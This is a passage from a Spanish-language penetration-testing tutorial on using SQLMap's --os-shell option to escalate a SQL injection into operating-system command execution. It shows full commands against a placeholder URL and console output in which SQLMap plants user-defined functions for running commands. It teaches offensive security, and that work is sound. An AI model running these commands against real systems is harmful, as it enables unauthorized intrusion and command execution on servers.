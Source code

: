 
### Ejecución de comandos

Ahora que hemos confirmado que podemos escribir un shell PHP para ejecutar comandos, podemos probar la capacidad de SQLMap para proporcionarnos un shell del sistema operativo sencillo sin tener que escribir manualmente un shell remoto. 

SQLMap utiliza diversas técnicas para obtener un shell remoto a través de vulnerabilidades de inyección SQL, como escribir un shell remoto, como acabamos de hacer, escribir funciones SQL que ejecutan comandos y recuperan resultados o incluso utilizar algunas consultas SQL que ejecutan directamente comandos del sistema operativo, como **xp_cmdshell** en Microsoft SQL Server. Para obtener un shell del sistema operativo con SQLMap, podemos utilizar la opción --os-shell.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --os-shell

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /xxxx-xx-xx/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

Vemos que SQLMap utilizó por defecto la técnica UNION para obtener un shell del sistema operativo, pero finalmente no nos proporcionó ningún resultado. No hay resultados. Por lo tanto, como ya sabemos que existen varios tipos de vulnerabilidades de inyección SQL, intentemos especificar otra técnica que tenga más posibilidades de proporcionarnos resultados directos, como la inyección SQL basada en errores, que podemos especificar con **--technique=E**.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 18:05:59 /xxxx-xx-xx/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
```